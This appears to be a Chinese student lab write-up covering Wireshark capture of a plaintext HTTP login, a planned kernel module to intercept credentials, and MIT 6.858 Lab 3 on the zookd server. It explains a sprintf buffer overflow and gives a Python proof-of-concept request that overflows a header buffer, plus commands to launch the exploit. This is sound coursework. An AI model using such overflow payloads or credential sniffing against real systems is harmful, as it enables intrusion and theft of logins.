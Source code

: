 实验要求：

1. 使用wireshark抓包，分析http报文结构。
2. 根据URL过滤报文，使得无法下载.exe后缀的文件。
3. 截取本虚拟机发出的http报文，判断是否有用户名和密码，若有则将其使用printk打印出来。

### wireshark抓包

首先使用wireshark抓包，通过虚拟机访问支持http的网站[Welcome To PKU JudgeOnline (poj.org)](http://poj.org/)，进行登录操作然后抓包，可以看到浏览器发出的POST请求是明文显示的，可以看到登录时输入的用户名和密码。

![wireshark抓包](https://bl6pap004files.storage.live.com/y4m5Lqxuf2MGNsT_LqQVK7fallkxt9XhBsQGyEU9O2fZK2MGuaYS7QYKwOv1tkmbepg58dZkgHVmO5qq23iMetJryPay1JveTiKmgF-mfXBdh2-RVmvTqjkI8X3BDlTUcwTuDMaCxQqEzG1_3A6tYJb35dKgCnw5wByr5qdPQbhruudfKA6ag-lUCcJmftWKwyR?width=1105&height=1075&cropmode=none)

### 根据URL过滤报文

todo...

### 窃取HTTP报文的用户名和密码

todo...

# Lab3-MIT 6.858: Computer Systems Security

## 实验内容

本次实验分为两个部分：

 第一部分：使用fuzz或者其他任意方式寻找代码中存在的buffoverflow（最少三处），并给出对应的POC。 

第二部分：挑选出任意一处，并利用给出的ShellCode，写出可以RCE的 EXP。

运行服务器

```shell
./clean-env.sh ./zookd-exstack 8080 &
```

运行poc

```shell
./exploit-2.py localhost 8080
```

overflow1

在http_request_header调用了sprintf函数，这是一个不安全的函数，函数有三个参数，envvar、”HTTP_%s"、 buf。这个函数的作用是先将"HTTP__"和buf拼接，然后复制到envvar中，这里buf的最大长度是8192，而envvar长度是512，我们可以将buf溢出到返回地址中，这里buf为http头部的key，我们可以选择将2000个'A'填充在buf中。

```python
def build_exploit1(shellcode):  
    req = b"GET / HTTP/1.0\r\n"
    for i in range (2000):
        req = req + b"A"
    req = req + b": abc.com\r\n"
    req = req + b"\r\n"
    return req
```
